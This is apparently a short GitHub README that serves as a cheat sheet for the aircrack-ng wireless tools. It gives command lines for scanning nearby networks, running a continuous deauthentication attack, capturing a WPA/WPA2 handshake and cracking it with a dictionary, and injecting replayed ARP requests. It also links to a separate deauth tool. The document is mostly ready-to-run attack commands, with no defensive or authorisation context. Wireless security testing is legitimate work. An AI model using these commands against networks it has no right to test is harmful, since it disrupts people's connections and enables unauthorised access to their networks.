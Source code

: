 # Usage of some tools

In this example
- `mon0` is the name of your interface in monitor mode
- `XX:XX:XX:XX:XX:XX` is the bssid of target network
- `-c X` is the channel of target network

## Scan network around

```
airodump-ng mon0
```

## [Deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication)

You can try it: https://github.com/lucthienphong1120/xDeauth

```
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
or
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 mon0
```

Ctrl+C to stop deauth

## WPA/WPA2 Handshake capture

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng --deauth 5 -a 00:14:6C:7E:40:80 mon0
(wait for a few seconds)
aircrack-ng -w /path/to/dictionary out.cap
```

## ARP request

```
airodump-ng -c 6 -w out --bssid 00:13:10:30:24:9C mon0
aireplay-ng -0 10 -a 00:13:10:30:24:9C mon0
aireplay-ng -3 -b 00:13:10:30:24:9C -h 00:09:5B:EB:C5:2B mon0
```





